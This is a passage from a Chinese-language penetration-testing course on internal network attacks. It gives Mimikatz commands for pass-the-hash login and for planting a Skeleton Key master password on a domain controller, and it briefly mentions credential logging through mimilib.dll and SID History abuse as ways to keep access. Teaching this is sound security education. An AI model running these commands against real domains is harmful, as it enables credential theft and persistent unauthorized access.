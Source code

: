 之后就可以用 mimikatz 去连接：

```java
sekurlsa::pth /domain:computername /user:Administrator /ntlm:{密码hash}
```

* **Skeleton Key**

Mimikatz 支持安装万能密码，通过以下命令即可将"mimikatz"作为万能密码去连接域控，哪怕域控密码被修改也可使用。

```java
privilege::debug 
misc::skeleton
```

除此之外，还可以利用 mimikatz 的 mimilib.dll 去记录重启后登录的密码，还有用户 SID History 属性等方式，都可以利用 Mimikatz 工具来实现，它在权限持久化方面提供了不少实用的功能。

### 总结

本课内容较长一些，主要是内网渗透涉及的知识点太多太杂了，限于篇幅，我也只能介绍一些最主要最常用的技术，按内网渗透流程来分顺序讲解：内网信息收集、通信隧道建设、权限提升、横向移动、权限维持。

更多内网渗透技巧，推荐你去看《内网安全攻防：渗透测试实战指南》这本书，其中还有Cobalt Strike这款在内网渗透中常被使用到的渗透测试框架的详细介绍，它是收费版的，另有社区版叫 armitage，你可以花点时间去研究下 Cobalt Strike 的使用，相信对提高内网渗透实战能力会有很大的帮助。

*** ** * ** ***

[课程评价入口，挑选 5 名小伙伴赠送小礼品～](https://wj.qq.com/s2/8059116/3881/)

